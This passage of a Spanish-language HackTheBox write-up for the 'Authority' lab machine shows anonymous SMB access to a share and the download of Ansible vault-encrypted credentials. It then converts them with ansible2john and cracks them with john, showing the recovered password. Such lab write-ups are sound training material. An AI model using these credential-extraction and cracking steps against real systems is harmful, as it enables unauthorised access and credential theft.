 ## SMB

Existe un recurso compartido del que podemos extraer credenciales encriptadas para distintos vaults de ansible.

```bash
❯ smbclient //10.10.11.222/Development/ -N
get Try "help" to get a list of possible commands.
smb: \> get Automation\Ansible\PWM\defaults\main.yml
getting file \Automation\Ansible\PWM\defaults\main.yml of size 1591 as Automation\Ansible\PWM\defaults\main.yml (3,8 KiloBytes/sec) (average 3,8 KiloBytes/sec)
```

![](@assets/HackTheBox/Authority/vault.png)

Las convertimos a un formato crackeable

```bash
❯ cat hash1.txt
$ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239
6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033
6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438

❯ ansible2john hash1.txt hash2.txt hash3.txt > hashes
```

Lanzamos john para intentar crackearlas.

```bash
❯ john -w:/usr/share/seclists/rockyou.txt hashes
Warning: detected hash type "ansible", but the string is also recognized as "ansible-opencl"
Use the "--format=ansible-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 128/128 AVX 4x])
Remaining 1 password hash
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (hash1.txt)
1g 0:00:00:53 DONE (2023-10-01 02:46) 0.01871g/s 744.9p/s 744.9c/s 744.9C/s 001982..ventana
Use the "--show" option to display all of the cracked passwords reliably
Session completed

❯ john --show hashes
hash1.txt:!@#$%^&*
hash2.txt:!@#$%^&*
hash3.txt:!@#$%^&*

3 password hashes cracked, 0 left
```
